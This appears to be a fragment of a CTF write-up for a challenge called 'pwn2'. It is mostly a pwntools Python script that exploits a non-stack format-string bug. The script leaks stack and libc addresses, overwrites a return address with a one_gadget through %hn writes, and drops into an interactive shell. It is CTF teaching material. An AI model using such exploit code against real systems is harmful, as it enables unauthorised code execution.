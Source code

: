 ### pwn2

> 非栈上的格式化字符串罢了

```python
from pwn import *
context(arch='amd64', os='linux')
libc = ELF('./libc.so.6')
elf = ELF('./pwn')


def leak2(offset):
    payload = '%{}$p%{}$p'.format(offset//8+6, offset//8+7).encode()
    io.sendafter(b'length: ', str(len(payload)).encode().rjust(4, b'0'))
    io.sendafter(b'content: ', payload)
    return int(io.recv(14), 16), int(io.recv(14), 16)


def write(offset, word):
    payload = '%{}c%{}$hn'.format(word, offset//8+6).encode()
    io.sendafter(b'length: ', str(len(payload)).encode().rjust(4, b'0'))
    io.sendafter(b'content: ', payload)


io = process('./pwn')
# io = remote('210.30.97.133', 10016)

off0 = 0x20
off1 = 0xc0
addr1, addr2 = leak2(0x20)
stack = addr1-0x98-256+208-2088+8
libc.address = addr2-0x2a1ca
gadget = libc.address+0xef52b

print('stack:', hex(stack))
print('gadget:',hex(libc.address+0x583dc), hex(gadget))

write(off0, stack & 0xffff)
gdb.attach(io, 'fini')
write(off1, gadget & 0xffff)
write(off0, (stack+2) & 0xffff)
write(off1, (gadget >> 16) & 0xffff)

io.sendafter(b'length: ', b'0001')

io.interactive()
// TODO
```

## Reverse
